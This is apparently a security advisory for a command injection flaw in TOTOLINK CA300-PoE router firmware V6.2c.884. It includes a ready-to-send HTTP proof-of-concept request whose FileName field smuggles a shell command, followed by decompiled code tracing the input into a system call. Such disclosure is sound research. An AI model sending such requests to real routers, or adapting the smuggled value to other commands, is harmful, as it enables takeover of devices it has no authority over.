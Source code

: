 # TOTOLINK  CA300-PoE V6.2c.884 was discovered to contain a command injection vulnerability via the FileName parameter in the function setUploadUserData

## Description

`TOTOLINK` Router **CA300-PoE V6.2c.884** was found to contain a command injection vulnerability in `setUploadUserData`.

## ![image-20230112103759214](images/1.png)

## Firmware information

* Manufacturer's address:https://www.totolink.net/
* Firmware download address : https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/139/ids/36.html



## Affected version

**Version: V6.2c.884**

![image-20230112103905821](images/2.png)

## Vulnerability details

POC1:

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.254
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 100
Origin: http://192.168.0.254
Connection: keep-alive
Referer: http://192.168.0.254/adm/network_daig.asp?timestamp=1673492576260
Cookie: SESSION_ID=2:1673492439:2

{"topicurl" : "setting/setUploadUserData", "ContentLength":"10485", "FileName": "a|mkdir /setUploadUserData_1111;"}
```

Folder created successfully

![image-20230113105118320](images/3.png)

```
int __fastcall setUploadUserData(int a1, int a2, int a3)
{
  const char *FileName_v; // $s3
  int ContentLength_v; // $s1
  int Object; // $s0
  int v9; // $s1
  int v10; // $v0
  int v11; // $s1
  const char *v13; // $a0
  int String; // $v0
  int v15; // $s2
  int v16; // $s0
  char v17[256]; // [sp+24h] [-104h] BYREF

  FileName_v = (const char *)websGetVar(a2, "FileName", "");
  ContentLength_v = websGetVar(a2, "ContentLength", "");
  set_action(3);
  Object = cJSON_CreateObject();
  v9 = strtol(ContentLength_v, 0, 10);
  if ( v9 < 1000 )
  {
    v13 = "MSG_userData_error";
    goto LABEL_7;
  }
  if ( v9 >= 1048577 )
  {
    v13 = "MSG_userData_big";
LABEL_7:
    String = cJSON_CreateString(v13);
    cJSON_AddItemToObject(Object, "upgradeERR1", String);
    unlink(FileName_v);
    set_action(0);
    goto LABEL_5;
  }
  if ( !fork(0) )
  {
    sleep(2);
    memset(v17, 0, sizeof(v17));
    v15 = malloc(v9);
    v16 = f_read(FileName_v, v15, 0, v9);
    if ( CS_DBG == 1 )
      printf("(%s:%d)=> inLen=[%d]\n", "setUploadUserData", 350, v16);
    f_write("/tmp/plugin.tar.gz", v15, v16, 0);
    free(v15);
    sprintf(v17, "md5sum %s | awk '{ print $1 }' > %s", "/tmp/plugin.tar.gz", "/userdata/SysPluginMd5");
    CsteSystem(v17, 0);
    CsteSystem("tar zxvf /tmp/plugin.tar.gz -C /tmp", 0);
    CsteSystem("sh /tmp/plugin/plugin.sh", 0);
    CsteSystem("rm -rf /tmp/plugin.tar.gz", 0);
    sprintf(v17, "rm -rf %s", FileName_v);
    CsteSystem(v17, 0);
    set_action(0);
    exit(1);
  }
  v10 = cJSON_CreateString("1");
  cJSON_AddItemToObject(Object, "upgradeStatus", v10);
LABEL_5:
  v11 = cJSON_Print(Object);
  websGetCfgResponse(a1, a3, v11);
  cJSON_Delete(Object);
  free(v11);
  return 0;
}
```



![image-20230113105039525](images/4.png)

![image-20230113125732755](images/5.png)